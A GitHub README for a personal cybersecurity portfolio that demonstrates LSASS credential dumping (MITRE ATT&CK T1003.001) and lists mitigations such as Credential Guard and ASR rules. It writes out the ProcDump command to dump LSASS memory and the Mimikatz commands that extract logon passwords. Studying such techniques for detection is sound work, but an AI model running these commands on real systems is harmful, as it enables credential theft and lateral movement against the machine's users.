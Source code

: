 
# Cybersecurity Portfolio: Threat Hunting and Credential Dumping Demo

Welcome to my cybersecurity portfolio repository! This project focuses on **Threat Hunting** techniques, specifically **OS Credential Dumping** using the MITRE ATT&CK framework.

## Project Overview

**Topic:** Threat Hunting - Credential Dumping from LSASS Memory  
**Technique ID:** [T1003.001](https://attack.mitre.org/techniques/T1003/001/) (OS Credential Dumping: LSASS Memory)  
**Tool Demonstrations:**
- **ProcDump**: Creating memory dumps of the LSASS process.
- **Mimikatz**: Extracting credentials from memory dumps.

---

## Demo Details

### 1. Dumping LSASS Memory with ProcDump
```bash
procdump -ma lsass.exe lsass_dump.dmp
```
- This command creates a full memory dump of the LSASS process.

### 2. Analyzing the Dump with Mimikatz
```bash
sekurlsa::Minidump lsass_dump.dmp
sekurlsa::logonPasswords
```
- These commands load the LSASS dump and extract user credentials.

---

## Why This Matters
- Attackers use credential dumping to perform **lateral movement** and escalate privileges.
- Knowing how this technique works helps defenders **detect**, **prevent**, and **respond** faster to threats.

---

## Mitigations
- **Credential Guard**: Protect LSASS secrets with Windows Defender Credential Guard.
- **ASR Rules**: Enable Attack Surface Reduction rules to block LSASS memory access.
- **Active Directory Hardening**: Secure domain controller replication permissions.
- **Password Policies**: Use unique, complex local administrator passwords.

---

## Tools Used
- [ProcDump - Microsoft Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)
- [Mimikatz GitHub Repository](https://github.com/gentilkiwi/mimikatz)

---

## About Me
I am passionate about cybersecurity, threat detection, and digital forensics. This repository is part of my ongoing portfolio to showcase hands-on cybersecurity skills.

Feel free to connect and check out more of my projects!

---

## Disclaimer
**This repository is for educational purposes only.** Always perform security testing in isolated, controlled environments and never without permission.

---

# Thank you for visiting my cybersecurity portfolio! :shield:
